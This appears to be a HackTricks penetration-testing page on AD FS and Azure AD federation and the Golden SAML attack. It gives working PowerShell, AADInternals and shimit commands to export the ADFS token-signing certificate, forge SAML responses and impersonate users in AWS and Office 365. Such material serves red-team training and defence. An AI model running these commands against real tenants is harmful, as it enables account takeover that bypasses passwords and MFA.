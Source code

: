 # Federation

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

**Federation** is a collection of **domains** that have established **trust**. The level of trust may vary, but typically includes **authentication** and almost always includes **authorization**. A typical federation might include a **number of organizations** that have established **trust** for **shared access** to a set of resources.

You can **federate your on-premises** environment **with Azure AD** and use this federation for authentication and authorization. This sign-in method ensures that all user **authentication occurs on-premises**. This method allows administrators to implement more rigorous levels of access control. Federation with **AD FS** and PingFederate is available.

<figure><img src="../../../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

Bsiacally, in Federation, all **authentication** occurs in the **on-prem** environment and the user experiences SSO across all the trusted environments. Therefore, users can **access** **cloud** applications by using their **on-prem credentials**.

**Security Assertion Markup Language (SAML)** is used for **exchanging** all the authentication and authorization **information** between the providers.

In any federation setup there are three parties:

* User or Client
* Identity Provider (IdP):
* Service Provider (SP)

<figure><img src="../../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

1. First the user **tries to access an application** (also known as the SP i.e. Service Provider), that might be an AWS console, vSphere web client, etc. Depending on the implementation, the client may go directly to the IdP first, and skip the first step in this diagram.
2. The application then **detects the IdP** (i.e. Identity Provider, could be AD FS, Okta, etc.) to authenticate the user, **generates a SAML AuthnRequest** and redirects the client to the IdP.
3. The **IdP authenticates the user**, **creates a SAMLResponse** and posts it to the SP via the user.
4. SP **checks the SAMLResponse** and **logs the user in**. The SP must have a trust relationship with the IdP. The user can now use the service.

**If you want to learn more about SAML authentication and common attacks go to:**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## Pivoting

* AD FS is a claims-based identity model.
* "..claimsaresimplystatements(forexample,name,identity,group), made about users, that are used primarily for authorizing access to claims-based applications located anywhere on the Internet."
* Claims for a user are written inside the SAML tokens and are then signed to provide confidentiality by the IdP.
* A user is identified by ImmutableID. It is globally unique and stored in Azure AD.
* TheImmuatbleIDisstoredon-premasms-DS-ConsistencyGuidforthe user and/or can be derived from the GUID of the user.
* More info in [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Golden SAML attack:**

* In ADFS, SAML Response is signed by a token-signing certificate.
* If the certificate is compromised, it is possible to authenticate to the Azure AD as ANY user synced to Azure AD!
* Just like our PTA abuse, password change for a user or MFA won't have any effect because we are forging the authentication response.
* The certificate can be extracted from the AD FS server with DA privileges and then can be used from any internet connected machine.
* More info in [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

From the previous schema the most interesting part is the third one, were the **IdP** generates a **SAMLResponse** authorising the user to sig in. Depending on the specific IdP implementation, the **response** may be either **signed** or **encrypted** by the **private key of the IdP**. This way, the **SP can verify** that the SAMLResponse was indeed created by the trusted IdP.

Similar to a [golden ticket attack](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket), with the **key** that **signs** the object which holds the **user’s identity** and **permissions** (_KRBTGT_ for golden ticket and token-signing private key for golden SAML), we can then **forge such an “authentication object”** (TGT or SAMLResponse) and **impersonate any user** to gain unauthorized access to the SP.

In addition, golden SAMLs have the following advantages:

* They can be **generated** from practically **anywhere**. You don’t need to be a part of a domain, federation of any other environment you’re dealing with
* They are effective even when **2FA** is enabled
* The token-signing **private key** is **not renewed** automatically
* **Changing** a user’s **password** **won’t affect** the generated SAML

#### AWS + AD FS + Golden SAML = ♥ (case study)

[Active Directory Federation Services](https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402\(v=msdn.10\)) (**AD FS**) is a Microsoft standards-based domain service that allows the **secure sharing of identity information** between trusted business partners (**federation**). It is basically a service in a domain that provides domain user identities to other service providers within a federation.

Assuming AWS **trusts** the domain which you’ve compromised (in a federation), you can then take advantage of this attack and practically **gain any permissions in the cloud environment**. To perform this attack, you’ll need the **private key that signs the SAML** objects (similarly to the need for the KRBTGT in a golden ticket). For this private key, you don’t need a domain admin access, you’ll only need the AD FS user account.

Here’s a list of the requirements for performing a golden SAML attack:

* **Token-signing private key**
* **IdP public certificate**
* **IdP name**
* **Role name (role to assume)**
* Domain\username
* Role session name in AWS
* Amazon account ID

_The mandatory requirements are highlighted. For the other non-mandatory fields, you can enter whatever you like._

For the **private key** you’ll need access to the **AD FS account**, and from its **personal store** you’ll need to **export the private key** (export can be done with tools like [mimikatz](https://github.com/gentilkiwi/mimikatz)). For the other requirements you can import the powershell snapin Microsoft.Adfs.Powershell and use it as follows (you have to be running as the ADFS user):

```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```

With all the information, it's possible to forget a valid SAMLResponse as the user you want to impersonate using [**shimit**](https://github.com/cyberark/shimit)**:**

{% code overflow="wrap" %}
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

### On-prem -> cloud

```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```

It's also possible to create ImmutableID of cloud only users and impersonate them

```powershell
# Create a realistic ImmutableID and set it for a cloud only user 
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```

## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
